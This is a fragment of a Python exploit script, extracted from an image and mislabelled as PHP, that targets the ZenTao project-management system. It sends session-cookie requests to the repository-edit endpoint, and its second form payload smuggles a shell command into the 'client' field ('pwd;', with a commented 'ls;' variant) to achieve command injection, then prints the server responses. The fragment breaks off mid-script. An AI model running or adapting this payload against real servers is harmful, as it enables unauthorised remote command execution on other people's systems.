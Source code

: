 ```php
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10\_15\_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36",

        "Accept-Language": "zh-CN,zh;q=0.9",

        # "Cookie": "zentaosid=u6vl6rc62jiqof4g5jtle6pft2; lang=zh-cn; device=desktop; theme=default",

        "Cookie": "zentaosid=u6vl6rc62jiqof4g5jtle6pft2; lang=zh-cn; device=desktop; theme=default",

    }

​

    headers2 \= {

        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10\_15\_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36",

        "Accept-Language": "zh-CN,zh;q=0.9",

        "Cookie": "zentaosid=u6vl6rc62jiqof4g5jtle6pft2; lang=zh-cn; device=desktop; theme=default",

        "Content-Type": "application/x-www-form-urlencoded",

        "X-Requested-With": "XMLHttpRequest",

        "Referer": url + "/repo-edit-1-0.html"

    }

​

    # data1 \= 'product%5B%5D=1&SCM=Gitlab&name=66666&path=&encoding=utf-8&client=&account=&password=&encrypt=base64&desc=&uid='

    data1 \= 'product%5B%5D=1&SCM=Gitlab&serviceProject=wangnima&name=wangnima2333&path=&encoding=utf-8&client=&account=&password=&encrypt=base64&desc=&uid=63e4a18218a68'

    # data2 \= r'SCM=Subversion&client=ls;'

    data2 \= r'product%5B%5D=1&SCM=Subversion&serviceHost=&name=wangnima2333&path=http%3A%2F%2F123.4.5.6&encoding=utf-8&client=pwd;&account=&password=&encrypt=base64&desc=&uid=63e4a26b5fd65'

    s \= requests.session()

    try:

        req1 \= s.get(url1, timeout\=5, verify\=False, headers\=headers)

        req3 \= s.post(url3, data\=data1,  timeout\=5, verify\=False, headers\=headers2)

        print(req3.text)

        req4 \= s.post(url4, data\=data2,  timeout\=5, verify\=False, headers\=headers2)

        print(req4.text)

        # if 'uid=' in req4.text:

        #
```